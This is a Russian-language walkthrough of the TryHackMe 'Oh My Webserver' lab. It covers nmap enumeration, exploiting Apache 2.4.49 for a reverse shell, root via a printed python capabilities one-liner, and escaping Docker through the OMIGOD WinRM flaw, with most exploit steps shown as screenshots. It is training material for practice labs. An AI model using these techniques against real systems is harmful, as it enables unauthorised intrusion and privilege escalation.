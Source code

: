 # Road

:white_check_mark:  [**Apache**](#apache)

:white_check_mark: [**Capabilities(python)**](#capabilities)

:white_check_mark: [**WinRM**](#win_rm)

:white_check_mark: [**Docker**](#docker)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV server.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Consult - Business Consultancy Agency Template | Home
|_http-server-header: Apache/2.4.49 (Unix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/1.png)

## Getting shell

<a name="apache"></a>

Сервер поднят на Apache 2.4.49. Найдем [уязвимость](https://www.exploit-db.com/exploits/50383) для него на exploit-db.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/2.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/3.png)

Клонируем эксплоит и используем.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/4.png)

Видим, что можем использовать команды. Прокинем обратную оболочку

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/5.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/6.png)

## Privilege escalation

Используем **linpeas**, чтобы найти что-нибудь интересное.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/7.png)

<a name="capabilities"></a>

Видим, что можем проэсплуатировать **capabilities** питона. Используем для этого [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities).
```
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

<a name="docker"></a>

## Docker escape

Получаем рут. Мы находимся в докере. Ищем способ выйти из него. Снова посмотрим на результат работы **linpeas**. Ничего, кроме внутреннего ip-адресса не найдена. Попробуем установить nmap и просканировать порты.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/8.png)

```
nmap -p- 172.17.0.1
```

```
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:99:85:EF:78 (Unknown)
```

<a name="win_rm"></a>

Порты 5985, 5986 относятся к **WinRM**. Проэксплуатируем [уязвимость](https://github.com/AlteredSecurity/CVE-2021-38647).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Oh_My_Webserver/9.png)

Мы вышли из докера.
